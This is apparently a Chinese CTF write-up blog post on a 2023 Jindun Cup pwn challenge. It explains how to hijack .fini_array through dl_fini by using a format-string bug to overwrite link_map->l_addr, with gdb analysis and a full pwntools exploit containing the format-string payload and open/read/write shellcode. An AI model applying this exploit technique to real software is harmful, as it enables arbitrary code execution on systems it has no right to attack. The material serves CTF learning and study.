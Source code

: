 ```yaml
---
title: 格式化字符串漏洞之劫持dl.fini
author: seyedog
date: 2023-12-18 20:40:00 +0800
categories: [Blogging, fmt]
tags: [pwn]
---
```



### 1. .fini_array劫持

以2023金盾杯的题为例
#### 1.1 2023金盾杯 sign_format

题目介绍：一道非栈上的格式化字符串，通过修改dl_fini数组里的偏移值，使函数在退出时执行我们写在bss段上的shellcode。


题目保护分析：没开PIE，其他防护都开了。其次开启了沙箱，需要ORW

题目主要流程：
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  sub_40135D();
  puts("Welcome here!");
  puts("It's a simple sign-in question.");
  puts("Let's start!");
  close(1);
  read(0, format, 0x100uLL);
  printf(format);
  return 0LL;
}
```

有一个很长的输入，之后是格式化字符串漏洞，但是关闭了标准输出流。

其中format保存在bss段上，所以不能修改返回地址了。
格式化字符串%n解析的是地址，当格式化字符串不写在栈上，我们无法通过访问写在栈上的地址来实现任意地址写。而且不能控制返回地址了。

考虑使用.fini_array劫持

#### 1.2 劫持.fini_array

实现功能：在执行exit函数的时候，执行任意地址上的程序

利用条件：需要修改一个在ld.so段上的值。
猜测这个值会在进行动态链接的时候过程中残留在栈上（存疑）

##### 1.2.1 原理分析

下面是程序执行流程图：

![星盟周报11.png](/assets/img/pictureI/星盟周报11.png)

根据上图流程，如果我们控制`exit`函数的finiarray，可以实现任意代码执行。

##### 1.2.2 dl_fini函数

![](/assets/img/pictureI/星盟周报1.png)

`exit`函数执行的时候会调用`dl_fini`函数。

本来l->l_addr为0，而l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr指针指向程序中的fini_array段的地址，也就是l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr的值为0x0000000000403D98

![](/assets/img/pictureI/星盟周报2.png)

如果我们能控制**linkmap->l_addr**指针，就可以将程序偏移到我们写的位置，执行shellcode。
需要注意这里存的是一个程序地址：0x401200，所以我们伪造`l_addr`的时候将偏移后的值改为shellcode的地址。

那么如何通过格式化字符串控制`l_addr`呢？这个就需要用到在栈上留存的一个`ld.so`上的指针了

#### 1.3 gdb动态分析利用过程

首先，在main函数执行完毕之后会跳转到exit函数执行：

![](/assets/img/pictureI/星盟周报7.png)

然后我们步进到exit函数中：

![](/assets/img/pictureI/星盟周报6.png)

可见exit函数会调用一个叫`__run_exit_handlers`的函数
继续步进，直到这个函数调用了`__dl_fini`函数，然后dl_fini函数会执行call rax地址：
![](/assets/img/pictureI/星盟周报5.png)

具体查看rax地址是0x40406b，指向0x404073，其实这里已经是被我们修改了。原本rax应该是0x0403D98 -> 0x401200，原本是要去执行这个代码的：
![](/assets/img/pictureI/星盟周报8.png)

dl_fini函数：
![](/assets/img/pictureI/星盟周报1.png)

当我们修改了l_addr之后，array\[i]就可以被控制了。

而我们只需要计算0x40406B - 0x403D98 = 723，就知道我们应该把`l_addr`改成多少了。那么我们怎么改这个值呢？

#### 1.4 修改ElfW中l->l_addr劫持fini_array执行

前面我们说过了，在栈上有一个ld.so的地址残留，猜测是在动态链接的过程中残留在栈上的，对应这道题：

![](/assets/img/pictureI/星盟周报9.png)
就是那个末尾是0x2e0的粉色的地址。里面存的值0x2d3就是723，这里是执行完格式化字符串漏洞，已经被我们修改过了。原本里面存的应该是0，对应的就是`l->l_addr = 0`

具体在dl_fini函数中：
![](/assets/img/pictureI/星盟周报3.png)

执行 `add rax,qword ptr [r15]` ，这个r15此时保存的就是栈上ld.so保存的那个数据，那么只要利用格式化字符串漏洞修改这个ld.so地址中存的值，就可以控制让rax中保存的值从0x401200+0x0 改为访问我们希望执行的shellcode的地址。
这里就是对应`l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr`，从而让fini_array被劫持。
而具体改为什么数字，我们前面已经计算过了：0x40406B - 0x403D98 = 723
接下来只需要找到ld.so这个地址的格式化字符串偏移，然后将他里面存放的数据从0修改为723即可。

###### 这里插一嘴
在执行dl_fini的过程中有几步rax的值是0x403e00：

![](/assets/img/pictureI/星盟周报10.png)

这个其实是`.dynamic`节的地址，保存的是用于动态链接函数的信息表地址，或者其他什么地址。这个需要看具体值：
![](/assets/img/pictureI/星盟安全4.png)

###### 结构体如下：
```c
typedef struct{
	ELF64_Sxword d_tag;
	union{
		ELF64_Xword d_val;
		ELF64_Addr d_ptr;
	}d_un;
}ELF64_Dyn;
```

这个结构体根据第一个值`d_tag`的具体取值选择对应第二个值是用来做什么的。
这里应该是用来找dl_fini的偏移。
这个学过ret2dlresolve的师傅应该很熟悉
###### 言归正传

#### 1.4 exp

```python
from ctypes import *
from pwn import *
banary = "/home/giantbranch/PWN/question/City/jindun/2023/pwn1"
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(banary)
# libc = ELF("/home/giantbranch/PWN/libc/libc.so.6")
# libc=ELF("/home/giantbranch/PWN/libc/libc6_2.27-3ubuntu1.5_amd64.so")
ip = '123.56.237.147'
port = 47726
local = 1
if local:
    io = process(banary)
else:
    io = remote(ip, port)

context(log_level = 'debug', os = 'linux', arch = 'amd64')
#context(log_level = 'debug', os = 'linux', arch = 'i386')

def dbg():
    gdb.attach(io)
    pause()

s = lambda data : io.send(data)
sl = lambda data : io.sendline(data)
sa = lambda text, data : io.sendafter(text, data)
sla = lambda text, data : io.sendlineafter(text, data)
r = lambda : io.recv()
ru = lambda text : io.recvuntil(text)
uu32 = lambda : u32(io.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
iuu32 = lambda : int(io.recv(10),16)
iuu64 = lambda : int(io.recv(6),16)
uheap = lambda : u64(io.recv(6).ljust(8,b'\x00'))
lg = lambda addr : log.info(addr)
ia = lambda : io.interactive()

main_read = 0x0040144A

bss = 0x0404060

fini_array = 0x403d90   #0x403d98 - 0x403da0  .fini_array
    # array[0]->__do_global_dtors_aux
    # array[1]->fini

# payload = b"%"+b"240c%21$hhn"
# payload = b"%"+b"584c%34$hn"
#0x403fe0
# payload = b"%"+b"723c%34$hn"
payload = b"%"+b"723c%34$hn"

payload2= """
   push   0x67616c66
   push   0x2
   pop    rax
   mov    rdi,rsp
   xor    rsi,rsi
   syscall
   mov    rdi,rax
   xor    rax,rax
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
   push   0x1
   pop    rax
   push   0x2
   pop    rdi
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
"""
print(len(payload))
payload = payload + p64(0x40406b+8)+ asm(payload2)
print(len(payload))
dbg()
sl(payload)

ia()
    
```




